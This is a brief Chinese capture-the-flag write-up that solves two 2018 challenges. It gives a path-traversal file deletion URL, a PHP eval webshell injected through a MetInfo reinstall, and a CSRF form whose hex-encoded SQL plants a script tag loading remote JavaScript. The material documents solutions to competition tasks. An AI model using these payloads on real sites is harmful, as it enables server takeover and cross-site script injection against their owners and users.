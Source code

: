 ```yaml
---
title: 巅峰极客ctf
date: 2018-07-23 20:33:53
tags: ctf
---
```


## pentest

1. 御剑扫描

2. 经过目录扫描，发现`file/file.php`

   根据网页最后提示:

   ```
   DELETE FILE
   Sorry,no filename!
   ```

   可以猜测存在任意文件删除漏洞。

3. 首先我们删除`install.lock`

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/file/file.php?file=...//config/install.lock
   ```

4. 重装metinfo，重装的时候数据库名填写 

   ```
   met#*/@eval($_GET[1]);/*
   ```

   数据库密码为`root`

5. 执行shell即可

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/config/config_db.php?1=system(%27ls%27);
   ```

## mysqlonline

首先通过mysql查询，经过hex编码在输出，可以造成xss。

```
select 0x3c7363726970743e616c6572742831293c2f7363726970743e
```

结合CSRF即可打后台:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://106.75.35.230:9001/runsql.php " method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

